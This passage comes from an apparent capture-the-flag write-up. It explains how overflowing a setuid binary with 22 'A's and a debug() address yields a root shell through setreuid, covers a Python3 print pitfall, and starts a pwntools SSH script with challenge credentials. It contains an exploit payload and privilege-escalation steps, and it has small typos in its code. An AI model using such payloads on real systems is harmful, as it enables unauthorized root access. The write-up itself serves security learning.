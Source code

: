 ```bash
0773290cf797:~$ man setreuid
...
int setreuid(uid_t ruid, uid_t euid);
...
setreuid() sets real and effective user IDs of the calling process.
``` 

- `real user ID` (ruid) = the user who owns the process aka the user who started the process.  
- `effective user ID` (euid) = the ID the process uses for permission checks.  

- `setreuid(getieuid(), geteuid())` will therefore sets both IDs to whatever `getuid()` returns both times.  
- `geteuid` will return the effective user ID of the calling process. 

The binary being run as `root`, when we call a shell from one of its function, so 'inside' it, `geteuid()` will both times return `0` which is the `root` user ID. `setreuid()` will therefore also returns `0` and poof, we get a root shell.

## Why my Python payload didn't work  

This line was causing a crash   

```bash
0773290cf797:~$ python -c 'print(b"A" * 22' + b"\x05\x92\x04\x08")' | ./baby
```  
The target machine was running on Python3  

```bash
0773290cf797:~$ python --version
180 Python 3.12.3
```  

So why does this crash ? Looks legit right ? The reason is (thanks Nishacid): in Python3 *(as opposed to Python2)*, `print()` displays **unicode** on stdout, which means we have extra octets being added to our payload. See yo on the bottom of the post to see how to circumvent that.  


# Two other ways to solve it and another way to find the offset

After talking to some friends and also nishacid (the challenge creator), i've been given a lot of very useful tips on how to solve the challenge differently. I knew some of the methods, but as what follows has been given to me, i'm giving back credits.  

## Solving with SSH & Pwntools 

I didnt even try this method as for some obscure reasons i couldn't even launch the binary on my host, even on a VM ... until the day after the challenge xD (true story!).  
I've commented the code to help you (and myself) understand it, so just dive into it (ask me questions on anything if needed).

```python
from pwn import *

# establishing SSH connection to remote server
socket = ssh(host='tcp0.infra.ctf.grehack.fr', user='baby', password='luV8GgeNzLmi8uERa7', port=10020)

# loads the baby binary (located on the remote server not locally) and create en 'object' we can interact with
p = socket.process('./baby')

# receiving and prints initial output from the program
print(p.recv())

# payload crafting (22*A + debug() address)
```